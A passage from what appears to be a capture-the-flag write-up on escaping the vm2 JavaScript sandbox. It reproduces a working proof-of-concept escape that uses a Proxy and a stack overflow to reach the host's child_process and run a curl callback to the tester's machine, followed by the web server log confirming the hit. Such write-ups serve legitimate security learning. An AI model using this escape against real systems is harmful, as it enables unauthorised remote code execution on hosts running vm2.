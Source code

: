 I looked for a POC, and quickly [found one](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244).

I tested it by trying to make a web request to my machine.

```js
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};

const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('curl 10.10.14.95');
}
`

console.log(vm.run(code));
```

I started a web server and got a hit when I posted that code.

```bash
$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.203.134 - - [27/Jan/2024 13:04:52] "GET / HTTP/1.1" 200 -
```
